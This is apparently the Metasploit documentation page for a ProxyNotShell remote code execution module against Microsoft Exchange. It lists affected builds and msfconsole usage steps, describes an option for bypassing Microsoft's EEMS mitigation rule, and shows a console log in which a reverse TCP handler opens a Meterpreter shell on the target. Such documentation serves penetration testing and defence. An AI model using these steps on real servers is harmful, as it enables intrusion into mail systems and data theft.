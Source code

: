 ## Vulnerable Application

This module chains two vulnerabilities on Microsoft Exchange Server that, when combined, allow an authenticated attacker
to interact with the Exchange Powershell backend (CVE-2022-41040), where a deserialization flaw can be leveraged to
obtain code execution (CVE-2022-41082). This exploit only support Exchange Server 2019.

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.44
  * Exchange 2016 CU22 < 15.1.2375.37
  * Exchange 2016 CU23 < 15.1.2507.16
  * Exchange 2019 CU11 < 15.2.986.36
  * Exchange 2019 CU12 < 15.2.1118.20

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: November 8, 2022 (KB5019758)][1]*

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxynotshell_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [USERNAME]`
5. Do: `set PASSWORD [PASSWORD]`
6. Do: `run`

## Advanced Options
### EemsBypass

Technique to bypass the EEMS rule.

**none** -- Make no attempt to bypass the EEMS rule. This can be used with the `check` method to determine if the EEMS 
M1 rule is applied.
**IBM037v1** -- Use IBM037 encoding combined with the `X-Up-Devcap-Post-Charset` header and `UP` User-Agent prefix. See
[ProxyNotRelay][2] for more information.

### MaxBackendRetries

The maximum number of times to retry for targeting the backend server with the SSRF. This is useful in environments
where a Data Availability Group (DAG) is in place and causes requests to be sent to a random backend server.

## Scenarios

### Version and OS

```
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-november-8-2022-kb5019758-2b3b039b-68b9-4f35-9064-6b286f495b1d
[2]: https://rw.md/2022/11/09/ProxyNotRelay.html
